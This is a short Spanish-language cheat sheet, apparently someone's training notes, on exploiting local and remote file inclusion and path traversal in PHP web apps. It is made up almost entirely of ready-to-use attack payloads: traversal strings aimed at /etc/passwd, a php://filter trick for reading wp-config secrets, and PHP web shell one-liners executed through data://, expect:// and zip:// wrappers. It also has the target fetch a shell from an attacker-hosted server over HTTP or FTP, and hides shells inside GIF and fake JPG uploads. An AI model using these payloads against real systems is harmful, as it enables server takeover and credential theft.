 # LFI & Path Traversal

## LFI
- [Payloads Fuzzing](https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt)
    - [An other one but for linux paths](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
    - [Windows paths](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
- Ejemplo para bypassear filtros: `....//....//....//....//etc/passwd`
- Encodearlo en URL también sirve: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`

## como poder ver archivos mediante path traversal con PHP wrappers
- `php://filter/read=convert.base64-encode/resource=ARCHIVO-PHP`
- Con esto podriamos ver una clave en texto plano en un wordpress, en el wp-config por ejemplo, el phpinfo, etc.

## Ejemplo de RCE
- `echo '<?php system($_GET["cmd"]); ?>' | base64`
- `http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

## Expect PHP Wrapper
- Este wrapper permite correr comandos directo desde URL parecido a las web shells
```bash
GNT@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## RFI (Remote file inclusion)
- Permite a un atacante incluir un archivo generalmente explotando la inclusión de un archivo dinamico implementado en el aplicativo.
- Ocurre cuando en un user input no hay una validación apropiada.
- en PHP podemos chequearlo con `allow_url_include`, también podemos directamente incluir un URL como payload.
    - `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

### RCE + RFI
- `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
- `python3 -m http.server 80`
- `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
- con ftp `python3 -m pyftpdlib -p 21`
- `http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`

## LFI + File upload

### Mediante una imagen
- `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`

### Zip upload
- `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
- `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`

